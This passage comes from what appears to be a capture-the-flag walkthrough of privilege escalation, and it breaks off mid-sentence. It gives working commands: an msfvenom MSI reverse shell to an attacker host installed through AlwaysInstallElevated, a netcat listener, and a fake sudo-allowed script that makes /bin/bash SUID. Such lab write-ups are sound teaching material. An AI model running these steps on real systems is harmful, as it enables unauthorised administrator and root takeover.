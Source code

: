 Note that the `AlwaysInstallElevated` registry key is set to true, which means things are automatically installed as admin.

PowerUp has an abuse function written for this already, but we can't run it because their msi uses a gui to add a user to the admin group.

We do have the password for the machine now, as it was stored in plain text in the registry, but we can't RDP in as a result of the user not being in the rdp group. 

Thus, we can instead generate our own malicious msi to get us a reverse shell.

I did this with `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.0.114 LPORT=443 -f msi -o evil.msi`

We can start a listener with `sudo nc -lnvp 443` and run this on the machine with `msiexec /quiet /qn /i evil.msi` ([source](https://medium.com/@anastasisvasileiadis/windows-privilege-escalation-alwaysinstallelevated-641e660b54bd))

Unfortunately, this doesn't seem to get us a callback. 

After a lot of searching, I found [and old writeup](https://decoder.cloud/2017/02/21/the-system-challenge/) that explains how to look at the error log for msiexec and explains that an interactive user session is needed.

Thus, we can run `ps` and migrate to a process with a session id of 1 or higher.

From here, re-running the exploit works and we get a callback as `nt authority\system`

### WSL Mounting (Method 2)

On the linux machine, we can run the following:

`sudo -l`
```
Matching Defaults entries for dev-datasci on DEV-DATASCI-JUP:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev-datasci may run the following commands on DEV-DATASCI-JUP:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /home/dev-datasci/.local/bin/jupyter, /bin/su dev-datasci
        -c *

```

`/home/dev-datasci/.local/bin/jupyter` doesn't exist, so we can make it ourselves

We can make the file ourselves and make it give bash suid perms:

```bash
#!/bin/bash
chmod +s /bin/bash
```

We can then run `sudo ./jupyter -p` to get a shell with euid 0.

To switch to a pure root account, we can run the [following](https://unix.stackexchange.com/questions/645075/attempting-to-get-root-uid-from-root-euid):
